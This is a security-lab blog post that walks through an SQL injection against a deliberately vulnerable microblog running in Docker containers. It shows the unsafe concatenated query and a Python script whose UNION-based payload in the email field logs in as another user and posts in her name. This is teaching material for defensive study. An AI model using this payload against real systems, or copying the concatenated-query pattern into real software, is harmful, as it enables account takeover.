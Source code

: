```yaml
---
layout: post
title: SQL Injection
category: web_security
author: 'reo'
tags: python seclab docker webapp
mathjax: 
---
```


An example of an SQL injection on an artificial microblog service.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

Our network here is set up with the microblog webapp again

```yaml
version: '3'

services:
  microblog:
    image: # private image
    container_name: microblog
    ports:
      - "8080:80"
    networks:
      channel:
        ipv4_address: 10.0.0.2
        
  alice:
    image: # private image
    container_name: alice
    tty: true
    shm_size: '1gb'
    sysctls:
        - net.ipv6.conf.all.disable_ipv6=1
    networks:
      channel:
        ipv4_address: 10.0.0.3
        
  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      volumes:
          - .:/shared
      network_mode: service:microblog
      
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:microblog

networks:
  channel:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
```

as usual, we start our containers with `docker-compose up`

<br>

***

## Observations

***

The backend seems to be creating the query by simply concatenating our (unsafe) input like.

```
$query = "SELECT * FROM users WHERE email = '$email'";
```

Additionally, the backend doesn't check whether the string sent in the email field is in fact a proper email.
We can use this to our advantage to manipulate the table and log in as Alice without knowing her password.

<br>

***

## The Attack

***

In the exploit, notice that the email field is set to be an SQL query so when the server
tries to fetch the corresponding user, it also does the "injected" operations. Here,
we take advantage of that to log in as Alice and make a post under her user.

```python
import os, requests
from urllib.parse import urlencode

PROTOCOL = "http"
HOST = "10.0.0.2"
PORT = "80"
BASE = PROTOCOL + "://" + HOST + ":" + PORT

# Mallory's credentials
mallory = {
    'email': "0' UNION SELECT 'alice@example.com','Alice', password FROM users where email = 'mallory@example.com",
    'password': 'pass4mallory'
}

with requests.Session() as s:
     # sign-in as mallory (POST request)
     res = s.post(BASE + '/signin.php', data=mallory)
     # post a message (POST request)
     res = s.post(BASE + '/post.php', data={'msg': "Got You!"})
```

<br>

***

## Conclusion

***

This attack relies on the server not doing proper sanitization on the input it's given.
This can be mitigated by sanitizing the user input in the backend before processing.

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

